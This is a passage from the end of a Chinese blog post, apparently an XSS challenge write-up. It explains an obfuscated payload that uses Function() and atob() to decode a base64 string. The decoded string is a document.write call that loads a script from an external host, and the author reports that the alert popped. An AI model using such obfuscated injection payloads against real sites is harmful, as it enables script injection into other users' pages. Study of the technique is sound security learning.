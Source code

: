 让我们来看看又用了哪些新姿势。

外层 `Function()` 函数是一样的，这里遇到了一个新方法 `atob()`，经查得知，`atob()` 方法用于解码使用 `base64`
编码的字符串。

而里面的字符串解码过后的内容是这样的：

    
    
    document.write("<script src='http://xcao.vip/xss/alert.js'></script>")
    

成功弹窗：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/2b8d25e72e9946c0a8eb44106654e9a2.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
太棒了，学到许多（

posted @ 2021-09-04 22:52
[\--Kisaragi--](https://www.cnblogs.com/--kisaragi--/)  阅读(153)  评论(0)
[编辑](https://i.cnblogs.com/EditPosts.aspx?postid=15228152)
[收藏](javascript:void\(0\))  [举报](javascript:void\(0\))

[刷新评论](javascript:void\(0\);)刷新页面返回顶部

[
![](https://img2020.cnblogs.com/blog/35695/202110/35695-20211008160624813-1694591598.jpg)
](https://c.gridsumdissector.com/r/?gid=gad_545_mzyfo0un&ck=46&adk=566&autorefresh=__AUTOREFRESH__)

Copyright (C) 2021 --Kisaragi--  
Powered by .NET 6 on Kubernetes


